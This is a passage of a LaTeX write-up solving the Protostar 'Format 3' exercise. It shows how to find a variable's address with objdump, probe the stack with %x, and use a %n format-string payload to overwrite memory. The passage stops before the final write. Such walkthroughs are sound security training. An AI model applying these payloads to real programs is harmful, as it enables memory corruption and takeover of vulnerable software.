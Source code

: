 
\begin{center}\begin{LARGE}Format 3\end{LARGE}\end{center}
 
\subsection*{Problem}

We can see that the problem is similar to format 2, but this time we need to
carefully modify the variable in memory such that in the compare statement we
have the required 4 bytes value.

\begin{lstlisting}[language=bash]
objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
\end{lstlisting}

Similarly we find the memory location of target again. We now will begin
injecting some string format to test the output of the program.

\subsection*{Idea and Attack process}

\begin{lstlisting}[language=bash]
python -c "print 'AAAA' + '%x.'*15" | ./format3
AAAA0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
\end{lstlisting}

We run the above code to first find out where in memory does the input reside in.
Having found the location, we will now inject the memory location of target and
we will also modify the format specifier which resides at the location of the string.

\begin{lstlisting}[language=bash]
python -c "print '\xf4\x96\x04\x08' + '%x.'*11 + '%n'" | ./format3
0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14.
target is 0000004c :(
\end{lstlisting}

Now that we can see there is some modifications to the target variable, we want
to write a specific value of $0x01025544$ using this pointer. This a 4byte value
to be written. We can conclude that we have to write this value to 4 memory
location from $0x080496f4$ to \lstinline|0x080496f7|.

